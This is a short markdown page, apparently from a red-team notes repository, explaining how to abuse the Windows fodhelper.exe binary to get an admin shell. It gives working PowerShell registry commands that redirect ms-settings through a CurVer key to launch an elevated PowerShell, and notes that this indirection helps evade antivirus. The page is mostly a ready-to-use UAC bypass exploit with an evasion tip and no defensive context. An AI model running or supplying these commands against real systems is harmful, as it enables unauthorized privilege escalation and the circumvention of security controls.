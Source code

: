 # Exploiting the Windows “Feature on Demand” Helper

The fodhelper binary can be abused to gain an admin shell on Windows boxes with a couple of registry key changes. They key (heh) here is to use the CurVer registry key to point fodhelper.exe to a different registry location; otherwise most AV solutions will catch this change and block it (though sometimes the command will still execute).

```powershell
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" `
	-Name "(default)" -Value "cmd.exe /c start powershell.exe" -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" `
	-Name "(default)" -value ".pwn" -Force
```

* [Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
